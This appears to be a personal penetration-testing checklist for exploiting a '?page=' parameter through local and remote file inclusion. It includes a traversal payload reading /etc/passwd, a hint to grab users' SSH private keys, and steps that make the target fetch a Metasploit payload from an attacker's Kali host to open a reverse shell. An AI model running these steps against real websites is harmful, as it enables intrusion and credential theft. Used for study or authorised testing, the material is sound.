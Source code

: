 # Initial inspection

1. Does the URL have a `?page=<whatever>` at the end?
   
   a. Yes then continue

   b. No then stop

# Attempt LFI 
 
1. cat a file every user should have access to?
   
   a. Something like this `<url>/?page=../../../../../../../../../../../etc/passwd`

   b. If this worked then LFI is good

   c. If this didnt work, attempt url encoding it

   d. If this didnt work, move on to RFI

3. Get users that have home directories

   a. Good starting point is look for `.ssh/id.rsa` file in attempt to get ssh access

# Attempt RFI 

1. set up enviroment

   a. Create nc listener on kali

   b. use website to call back to nc listener `<url>/?page=http://<kali ip>:<port>/`

   c. examine nc output

         i. if the request looks like `GET / HTTP/1.0` then the webpage is not looking for any file type inparticulat

         ii. if the tequest looks like `GET /<file name> HTTP/1.0` then it is looking for a file with that file name

   d. request like `GET / HTTP/1.0`:

         i. create payload with msfconsol and start a webserver in that location

         ii. creat a listener on the kali machine listening for the call back
   
         iii. call the file through the url `<url>/?page=http://<kali webserver>/<file>`

         iv. wait for the call back

   e. request like `GET /<file name> HTTP/1.0`:

         i. create payload with msfconsol and with the name and file type of the one that nc returned

         ii. start a webserver in that location of shell

         iii. creat a listener on the kali machine listening for the call back

         iv. call the file through the url `<url>/?page=http://<kali webserver>/<file>`

         v. wait for the call back

      

